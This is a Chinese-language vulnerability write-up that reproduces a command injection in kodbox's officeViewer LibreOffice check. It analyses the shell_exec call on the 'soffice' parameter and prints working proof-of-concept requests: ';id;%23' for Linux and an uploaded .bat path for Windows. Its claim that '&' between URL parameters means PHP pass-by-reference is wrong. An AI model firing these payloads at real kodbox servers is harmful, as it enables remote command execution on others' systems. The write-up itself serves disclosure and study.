



# 奇安信攻防社区 - 某 cms 代码注入漏洞复现与分析

# 漏洞前言：

kodbox 是一个网络文件管理器。是一款功能丰富的私有云在线文档管理系统。它可以帮助你快速搭建一个私有网盘/云桌面，方便地管理和共享文件。它也是一个网页代码编辑器，允许您直接在网页浏览器中开发网站。12 月 16 日发布漏洞公告 kalcaddle kodbox 中发现命令注入漏洞，影响版本为小于 1.48。

# 漏洞环境：

本地环境搭建：

源码下载：https:*//github.com/kalcaddle/kodbox*

下载 1.47 版本源码进行搭建，需要 php 版本为 5 以上，这里不做过多赘述。


# 漏洞分析：

根据公告内容：受此漏洞影响的是文件 plugins/officeViewer/controller/libreOffice/index.class.php 的功能检查，对参数 soffice 的操纵会导致命令注入。



那么进一步跟进代码进行查看：

先查看主函数：



主函数作用是在用户访问文件的时候首先获取处理文件插件功能的插件，再检查是否允许使用名为 'LibreOffice' 的扩展。getSoffice() 用于检查能否成功获取到 LibreOffice 的可执行文件路径，最后通过传入的 filepath 获取指定文件信息。

跟进 getSoffice() 方法：


`getSoffice` 方法用于获取 LibreOffice 的可执行文件路径的函数。它首先从配置中获取 LibreOffice 的安装路径，然后通过 `checkBin` 方法检查该路径是否有效。跟进 checkBin()：


`checkBin` 方法用于检查指定可执行文件是否可用。通过执行 `shell_exec` 来尝试运行指定的可执行文件。

其中使用`shell_exec`函数执行了命令并将输出结果存储在`$result`变量中。


```php
private function checkBin($bin,$check){
    $code = Cache::get($bin);
    if ($code) return $code;
    $result = shell_exec($bin.' --help');  // ' 2>&1'
    $code = strstr($result,$check) ? true : false;
    Cache::set($bin, $code);
    return $code;
}
```

可以看到这里$bin 可控。

下面查看哪里调用了 getSoffice()，找到函数 check()；


```php
public function check(){
       $bin = $this->in['soffice'];
       //从 HTTP 请求中获取名为 `soffice` 的参数并将其值赋给变量 $bin
    $plugin = Action($this->pluginName);
       if(!empty($bin)) {
           $plugin->setConfig(array('lbSoffice' => $bin));
       }
    if(isset($_GET['check'])){
       if(!function_exists('shell_exec')) {
          show_json(LNG('officeViewer.libreOffice.execDisabled'), false);
       }
       $msg = '';
           if(!$soffice = $this->getSoffice()) {
          $msg = LNG('officeViewer.libreOffice.checkError');
           }
           show_json($msg, !!$soffice);
    }
       Action($this->pluginName)->includeTpl('static/libreoffice/check.html');
}
```

可以看到通过此函数先从 HTTP 请求中获取名为 `soffice` 的参数，并将其值赋给变量 `$bin`，下来检查是否存在名为 "check" 的 GET 参数，如果存在才会进入条件语句的代码块，检查`shell_exec()` 函数是否可用，接下来调用`getSoffice()` 方法。


在`getSoffice()` 方法中`isset($data['soffice'])` 检查数组 `$data` 中是否存在键名为 `'soffice'` 的元素，如果存在返回 true，并将$data\['soffice'\]\` 的值赋给$bin。


拼接 soffice 参数：plugin/officeViewer/libreOffice/index/check&soffice

使用 `&` 连接 check 和 soffice 参数可以将参数以引用传递的方式传递给函数或方法。

（在 php 中两个参数使用 `&` 连接参数是为了以引用传递的方式将参数传递给函数或方法。PHP 函数和方法中的参数传递分为按值传递、引用传递。默认情况下 PHP 函数和方法中的参数传递是按值传递（pass by value）的，也就是说会创建参数的副本并传递给函数或方法。这意味着在函数或方法内部对参数进行修改不会影响到原始的参数。然而，有时候我们希望在函数或方法内部能够修改原始的参数。这时可以使用引用传递（pass by reference），在参数前面加上 `&` 符号来实现。这样，当参数在函数或方法内部被修改时，原始的参数也会被修改。）


```php
$bin = '"'.trim(iconv_system($bin)).'"';    // win 路径空格处理
```

在 windows 环境下对$bin 特殊处理：getSoffice() 中$bin 参数会被两个双引号闭合，且使用`trim()` 函数删除 `$bin` 变量字符串首尾的空白字符，包括空格、制表符、换行符等。iconv\_system 函数用于将“$bin”字符进行编码转换。


windows 环境下可以通过传入文件路径执行 bat 文件实现远程命令执行。

测试 poc 为：

```php
plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

linux 环境下可以通过 soffice 传入命令通过闭合双引号实现命令注入。

测试 poc 为：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1
```

# 漏洞利用：

**linux 系统下漏洞利用：**


GET /kodbox/index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1 HTTP/1.1  
Host: 192.168.145.131  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: KOD\_SESSION\_ID=9fbbb7a218e0d680fab1ce38b9879adc; CSRF\_TOKEN=6jfthGWYzrs5R8Xr; kodUserID=1  
Connection: close


**windows 系统下：**

利用条件：1、需要权限可上传写入文件到服务器中。2、需要有可执行文件的绝对路径。

一、进入后台上传 poc 文件


poc 内容为：


poc 上传的绝对路径为：

```php
D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```



二、执行 poc.bat：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```


执行结果：


